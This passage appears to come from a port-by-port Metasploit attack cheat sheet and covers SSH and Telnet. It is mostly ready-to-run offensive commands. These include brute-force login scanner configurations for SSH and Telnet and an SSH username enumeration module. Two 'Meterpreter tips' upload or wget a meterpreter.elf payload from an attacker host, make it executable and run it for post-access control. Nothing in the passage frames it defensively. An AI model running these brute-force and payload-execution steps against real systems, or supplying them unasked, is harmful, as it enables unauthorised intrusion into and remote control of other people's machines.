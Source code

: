 ### Meterpreter Tip:
After initial access, upload and execute a Meterpreter payload:
```bash
upload /path/to/meterpreter.elf
chmod +x meterpreter.elf
./meterpreter.elf
```

---

## Port 22 - SSH
**Service**: Secure Shell  
**Common services**: OpenSSH, Dropbear, Tectia SSH

### Auxiliary: SSH Login Scanner
```bash
use auxiliary/scanner/ssh/ssh_login
set RHOSTS [IP]
set USERNAME root
set PASS_FILE /path/to/passwords.txt
set VERBOSE true
```
**Purpose**: The primary method for attacking SSH.

### Auxiliary: SSH User Enumeration
```bash
use auxiliary/scanner/ssh/ssh_enumusers
set RHOSTS [IP]
set USER_FILE /path/to/usernames.txt
```
**Purpose**: Enumerates valid system usernames on older OpenSSH versions.

### Meterpreter Tip:
After gaining SSH access, download and execute a Meterpreter payload:
```bash
wget http://[IP]/meterpreter.elf -O /tmp/m
chmod +x /tmp/m
/tmp/m
```

---

## Port 23 - Telnet
**Service**: Telnet Protocol  
**Common services**: in.telnetd, Microsoft Telnet, various embedded devices

### Auxiliary: Telnet Login Scanner
```bash
use auxiliary/scanner/telnet/telnet_login
set RHOSTS [IP]
set USERPASS_FILE /path/to/wordlist.txt
set VERBOSE true
```
**Purpose**: Bruteforces logins on the unencrypted service.
